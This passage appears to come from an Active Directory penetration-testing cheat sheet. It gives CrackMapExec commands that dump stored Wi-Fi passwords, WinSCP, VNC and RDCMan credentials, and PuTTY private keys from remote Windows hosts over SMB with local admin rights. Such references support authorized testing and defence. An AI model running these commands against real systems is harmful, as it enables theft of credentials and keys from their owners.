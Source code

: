 Dump the WIFI password register in Windows.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M wifi
```

## Dump WinSCP
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump WinSCP secrets.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M winscp
```

## Dump PuTTY
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump users private keys stored by PuTTY for remote connections (e.g. SSH).

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M putty
```

## Dump VNC
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump users credentials stored by RealVNC or TightVNC for remote connections.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M vnc
```

## Dump RDCMan (Remote Desktop Connection Manager)
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump Remote Desktop Connection Manager credentials.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M rdcman
```
